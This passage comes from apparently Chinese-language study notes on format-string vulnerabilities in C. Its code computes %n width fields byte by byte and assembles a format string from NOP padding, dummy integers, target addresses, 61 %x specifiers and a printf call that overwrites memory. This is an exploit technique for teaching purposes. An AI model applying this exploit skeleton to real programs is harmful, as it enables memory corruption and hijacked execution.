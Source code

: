 			// second byte
			write_byte = 0x3fA;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);

			// third byte
			write_byte = 0x442;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);

			// fourth byte
			write_byte = 0x501;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);
			```

            1. 用于存储输出的字符个数（等于格式化输出函数的输出计数器的值）
            2. 存储有转换规范`%n`所需要的宽度域的值
            3. 包含下一个将要写入的字节值

		- 覆写内存

			```c
			unsigned char exploit[1024] = "\x90\x90\x90...\x90";
			char format[1024];
			strcpy(format, "\xaa\xaa\xaa\xaa");  //(1)!
			strcat(format, "\xdc\xf5\x42\x01");  //(2)!
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xdd\xf5\x42\x01");
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xde\xf5\x42\x01");
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xdf\xf5\x42\x01");
			for (i = 0; i < 61; i++) {
			   strcat(format, "%x"); //(3)!
			}
			/* code to write address goes here */
			printf(format);
			```

            1. 哑整数
            2. 地址
            3. 将参数指针步进到格式字符串的起点以及第一个哑整数/地址对
